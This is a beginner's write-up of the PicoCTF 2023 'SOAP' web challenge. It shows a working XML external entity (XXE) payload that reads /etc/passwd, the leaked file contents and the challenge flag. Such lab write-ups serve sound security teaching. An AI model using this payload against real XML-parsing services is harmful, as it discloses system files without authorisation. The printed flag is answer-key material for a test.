

# [PicoCTF 2023](https://play.picoctf.org/events/72/): SOAP
## Info
**Category**: Web Exploitation  
**Points**: 100

## Description
The web project was rushed and no security assessment was done. Can you read the `/etc/passwd` file?

**Hint:**  
XML external entity Injection

## Writeup
After launching the challenge instance, we are greeted with a website with 3 buttons. Pressing each outputs a short message at the bottom of the site.


After we open the website in the Burp Suite Proxy browser, pressing a button generates the following POST request:



The main payload appears to be XML data. The hint for this challenge is "XML external entity Injection", which is explained in detail [here](https://portswigger.net/web-security/xxe). We can create a payload that accesses the file `/etc/passwd` by using the `SYSTEM` keyword when defining a custom XML entity like this:

```
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <data>
        <ID>
            &xxe;
        </ID>
    </data>
```

After sending the request, the contents of `/etc/passwd` are revealed to us at the bottom of the page:

```
Invalid ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin flask:x:999:999::/app:/bin/sh picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```

And there's the flag! **`picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}`**

---
(P.S. This is my first writeup ever, I hope you liked it!)